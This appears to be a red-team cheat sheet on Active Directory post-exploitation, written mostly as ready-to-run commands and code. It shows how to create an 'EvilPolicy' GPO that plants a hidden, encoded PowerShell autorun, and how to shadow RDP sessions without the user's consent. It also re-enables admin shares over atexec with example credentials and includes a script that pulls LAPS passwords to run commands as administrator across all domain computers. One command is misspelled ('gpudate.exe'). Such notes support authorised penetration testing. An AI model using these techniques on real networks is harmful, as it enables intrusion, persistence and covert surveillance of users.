 ```yaml
---
description: Post Exploitation in Active Directory
---
```


# Post Exploitation




## GPOs

Identify the OU containing the `VICTIM-PC` object:

```
PS > Add-WindowsFeature -Name "RSAT-AD-PowerShell"
PS > Import-Module ActiveDirectory
PS > Get-ADComputer -Identity VICTIM-PC | select DistinguishedName
```

Create a GPO using GPMC:

1. Run > `gpmc.msc`.
2. Create a new GPO in the OU in which `VICTIM-PC` resides.
3. Remove `Authenticated Users` from **Security Filtering** and add `VICTIM-PC` there.
4. Link it to the OU and edit it.

Usually, it takes between 90 and 120 minutes for a new GPO to be applied. Force it with:

```
Cmd > gpudate.exe /force
```

{% tabs %}
{% tab title="Enable RDP" %}
```
<POLICY_NAME>
  Computer Configuration
    Policies
      Administrative Templates
        Windows Components
          Remote Desktop Services
            Remote Desktop Session Host
              Connections
                Allow users to connect remotely using Remote Desktop Services
                  Enabled, OK
```
{% endtab %}
{% tab title="Allow RDP Connections" %}
```
<POLICY_NAME>
  Computer Configuration
    Policies
      Windows Settings
        Security Settings
          Windows Defender Firewall with Advanced Security
            Inbound Rules
              (right-click) New Rule
                Predefined (Remote Desktop)
		          Allow the connection, Finish
```
{% endtab %}
{% tab title="Edit Local Administrators Membership" %}
```
<POLICY_NAME>
  Computer Configuration
    Preferences
      Control Panel Settings
        Local Users and Groups
          (right-click) New > Local Group
            Group name (...)
              Members (Add), OK
                Apply, OK
```
{% endtab %}
{% tab title="Enable Shadow RDP" %}
```
<POLICY_NAME>
  Computer Configuration
    Policies
      Administrative Templates
        Windows Components
          Remote Desktop Services
            Remote Desktop Session Host
              Connections
                Set rules for remote control of Terminal Services user sessions
                  Enabled + Options (Full Control without user's permission), OK
```
{% endtab %}
{% tab title="Immediate Scheduled Task" %}
```
<POLICY_NAME>
  Computer Configuration
    Policies
      Preferences
        Control Panel Settings
          Scheduled Tasks
            (right-click) New > Immediate Task (At least Windows 7)
```
{% endtab %}
{% endtabs %}



### Reach a Locked-down Domain Computer

- [How to Hack Like a Pornstar / Best hacking books for aspiring hackers - Real life hacking scenarios](https://www.sparcflow.com/best-hacking-books/)

If you find yourself in a situation when you're already a domain admin and you need to access a locked-down domain computer (no RDP/WinRM, no SMB shares, no owned local admins, etc.), creating an evil GPO may help.

Create a GPO using PowerShell (will trigger a command when the victim user logs in):

```
PS > Add-WindowsFeature -Name "GPMC"
PS > Import-Module GroupPolicy
PS > New-GPO -Name EvilPolicy -Domain megacorp.local -Server DC01.megacorp.local
PS > Set-GPPermission -Name EvilPolicy -Replace -PermissionLevel GpoApply -TargetName "victim.user" -TargetType User
PS > Set-GPPermission -Name EvilPolicy -Replace -PermissionLevel GpoApply -TargetName "VICTIM-PC" -TargetType Computer
PS > Set-GPPermission -Name EvilPolicy -PermissionLevel None -TargetName "Authenticated Users" -TargetType Group
PS > New-GPLink -Name EvilPolicy -Domain megacorp.local -Target "<TARGET_OU>" -Order 1 -Enforced Yes
PS > Set-GPRegistryValue -Name EvilPolicy -Key "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName MSstart -Type String -Value "powershell.exe -NoP -sta -NonI -W Hidden -Exec Bypass -Enc <BASE64_CMD>"
```

Enable ADMIN shares manually by restoring [AutoShareServer](https://learn.microsoft.com/ru-ru/troubleshoot/windows-server/networking/remove-administrative-shares):

```
$ atexec.py -nooutput megacorp.local/snovvcrash:'Passw0rd!'@192.168.1.11 'reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters" /v AutoShareServer /t REG_DWORD /d 1 /f && net stop server && net start server'
```



### Shadow RDP

- [https://swarm.ptsecurity.com/remote-desktop-services-shadowing/](https://swarm.ptsecurity.com/remote-desktop-services-shadowing/)
- [https://winitpro.ru/index.php/2014/02/12/rds-shadow-v-windows-2012-r2/](https://winitpro.ru/index.php/2014/02/12/rds-shadow-v-windows-2012-r2/)
- [https://darkbyte.net/autordpwn-la-guia-definitiva/](https://darkbyte.net/autordpwn-la-guia-definitiva/)
- [https://github.com/JoelGMSec/AutoRDPwn](https://github.com/JoelGMSec/AutoRDPwn)

Enable Shadow RDP via group policies or by manually setting the registry and connect to an active session on the target machine.

Enable:

```
Cmd > reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v Shadow /t REG_DWORD /d 4 (or 2 for mstsc /control) /f
Cmd > netsh advfirewall firewall set rule name="Remote Desktop - Shadow (TCP-In)" new enable=yes
Cmd > netsh advfirewall firewall set rule name="File and Printer Sharing (SMB-In)" new enable=yes
PS > New-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" -Name "Shadow" -PropertyType "DWORD" -Value 4 -Force
PS > Enable-NetFirewallRule RemoteDesktop-Shadow-In-TCP
PS > Enable-NetFirewallRule FPS-SMB-In-TCP*
```

Shadow the RDP:

```
Cmd > qwinsta.exe /server:192.168.1.11
Cmd > mstsc.exe /v:192.168.1.11 /shadow:<ID> /noConsentPrompt [/control]
```

Cleanup:

```
Cmd > reg delete "HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" /v Shadow /f
Cmd > netsh advfirewall firewall set rule name="Remote Desktop - Shadow (TCP-In)" new enable=no
Cmd > netsh advfirewall firewall set rule name="File and Printer Sharing (SMB-In)" new enable=no
PS > Remove-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows NT\Terminal Services" -Name "Shadow" -Force
PS > Disable-NetFirewallRule RemoteDesktop-Shadow-In-TCP
PS > Disable-NetFirewallRule FPS-SMB-In-TCP*
```




## Run on Domain Computers

* [How to Hack Like a Pornstar / Best hacking books for aspiring hackers - Real life hacking scenarios](https://www.sparcflow.com/best-hacking-books/)

An example PowerShell script to execute commands as a local admin on all domain computers pulling LAPS passwords automatically:

{% code title="ADComputersCmd.ps1" %}
```powershell
 # Save with Encoding "UTF-8 with BOM"

[System.Console]::OutputEncoding = [System.Text.Encoding]::UTF8
$ErrorActionPreference = "Stop"

$command = '[System.Console]::OutputEncoding = [System.Text.Encoding]::UTF8; '
$command += 'whoami > C:\Windows\Temp\whoami.txt 2>&1'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)

Get-ADComputer -Filter * -Properties ms-Mcs-AdmPwd | ? {$_.name -ne $(hostname)} | select name,ms-Mcs-AdmPwd | ForEach-Object {
	$comp = $_."name"
	$pass = $_."ms-Mcs-AdmPwd"

	if (Test-Connection -BufferSize 32 -Count 1 -ComputerName $comp -Quiet) {
		try {
			$cred = New-Object System.Management.Automation.PSCredential("$comp\administrator", $(ConvertTo-SecureString $pass -AsPlainText -Force))
			$proc = Invoke-WmiMethod Win32_Process -Name Create -ArgumentList ("powershell -enc $encodedCommand") -ComputerName $comp -Credential $cred

			do {
				Write-Host -ForegroundColor Green "[*] Waiting for script to finish on $comp"
				Start-Sleep -Seconds 2
			} until ((Get-WmiObject -Class Win32_Process -Filter "ProcessId=$proc.ProcessId" -ComputerName $comp -Credential $cred | where {$_.ProcessId -eq $proc.ProcessId}).ProcessId -eq $null)

			net use "\\$comp" /user:administrator $pass 2>&1 | Out-Null
			Get-Content "\\$comp\C$\Windows\Temp\whoami.txt"
			Remove-Item "\\$comp\C$\Windows\Temp\whoami.txt" -Force
			net use "\\$comp" /delete 2>&1 | Out-Null
		}
		catch {
			Write-Host -ForegroundColor Red "[-] Connection failure: $comp"
		}
	}
	else {
		Write-Host -ForegroundColor Yellow "[!] Connection timed out: $comp"
	}
}
```
{% endcode %}
